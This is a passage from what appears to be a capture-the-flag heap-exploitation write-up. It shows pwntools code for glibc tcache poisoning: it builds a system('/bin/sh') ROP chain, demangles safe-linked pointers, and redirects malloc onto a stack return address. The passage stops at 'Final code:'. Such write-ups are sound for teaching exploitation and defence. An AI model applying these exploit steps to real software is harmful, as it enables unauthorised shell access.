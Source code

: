 Now let's allocate 3 chunks which will go into tcache and will be used in the exploit. But, first, we need to know the payload size 
so we know which size to allocate. We need a classic `system("/bin/sh")` payload.

```py
chain = flat(
    0x4141414141414141,
    p64(libc_base + libc_rop.ret.address),
    p64(libc_base + libc_rop.rdi.address),
    p64(libc_base + next(libc.search(b"/bin/sh\x00"))),
    p64(libc_base + libc.sym.system),
)

chunk_size = len(chain)

add(0, b"AAAA", length=chunk_size)
add(1, b"BBBB", length=chunk_size)
add(2, b"CCCC", length=chunk_size)
remove(0)
remove(1)
remove(2)
```

The extra `0x41...` at the beginning is for malloc alignment. Since malloc has a mitigation that requires a chunk to be aligned,
we couldn't return the return address directly. However, the return address - 0x8 worked. So we need an extra qword to write.

Also, we need another heap leak to mangle the new stack target, since it could be different from the first, but the technique is the same.

```py
heap_leak = u64(view(2).ljust(8, b"\x00"))
log.success(f"{heap_leak = :#0x}")
heap_leak_demangled = demangle(heap_leak)
log.success(f"{heap_leak_demangled = :#0x}")
```

We can compute the offset from our stack leak to the return address and edit chunk 1 to force malloc to return it:

```
stack_target = stack_leak - 0x148
log.success(f"{stack_target = :#0x}")
edit(1, p64(mangle(stack_target, heap_leak_demangled)))
```

In the end, we just allocate the chunks back and, when we get to the controlled pointer, write the chain:

```py
add(0, b"AAAA", length=chunk_size)
add(0, b"AAAA", length=chunk_size)
add(0, chain, length=chunk_size)
```

Final code:
